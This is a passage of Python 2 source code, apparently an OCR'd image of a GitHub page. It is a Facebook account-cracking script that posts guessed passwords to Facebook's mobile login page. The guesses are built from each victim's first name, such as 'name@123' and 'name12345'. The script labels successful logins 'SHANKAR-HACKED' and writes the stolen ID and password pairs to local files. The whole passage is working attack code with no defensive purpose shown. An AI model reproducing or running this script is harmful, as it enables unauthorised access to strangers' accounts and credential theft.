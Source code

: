                     ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
                else:
                    ps3 = name.lower().split(' ')[0] + '@123'
                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                        'email': uid,
                        'pass': ps3,
                        'login': 'submit' })
                    sp = data.content
                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        ok = open('OK.txt', 'a')
                        ok.write(uid + '|' + ps3 + '\n')
                        ok.close()
                        oks.append(uid + ps3)
                    elif 'checkpoint' in sp:
                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        cp = open('CP.txt', 'a')
                        cp.write(uid + '|' + ps3 + '\n')
                        cp.close()
                        cps.append(uid + ps3)
                    else:
                        ps4 = name.lower().split(' ')[0] + '123'
                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                            'email': uid,
                            'pass': ps4,
                            'login': 'submit' })
                        sp = data.content
                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            ok = open('OK.txt', 'a')
                            ok.write(uid + '|' + ps4 + '\n')
                            ok.close()
                            oks.append(uid + ps4)
                        elif 'checkpoint' in sp:
                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            cp = open('CP.txt', 'a')
                            cp.write(uid + '|' + ps4 + '\n')
                            cp.close()
                            cps.append(uid + ps4)
                        else:
                            ps5 = name.lower().split(' ')[0] + '12345'
                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                'email': uid,
                                'pass': ps5,
                                'login': 'submit' })
                            sp = data.content
                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                ok = open('OK.txt', 'a')
                                ok.write(uid + '|' + ps5 + '\n')
                                ok.close()
                                oks.append(uid + ps5)
                            elif 'checkpoint' in sp:
                                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                cp = open('CP.txt', 'a')
                                cp.write(uid + '|' + ps5 + '\n')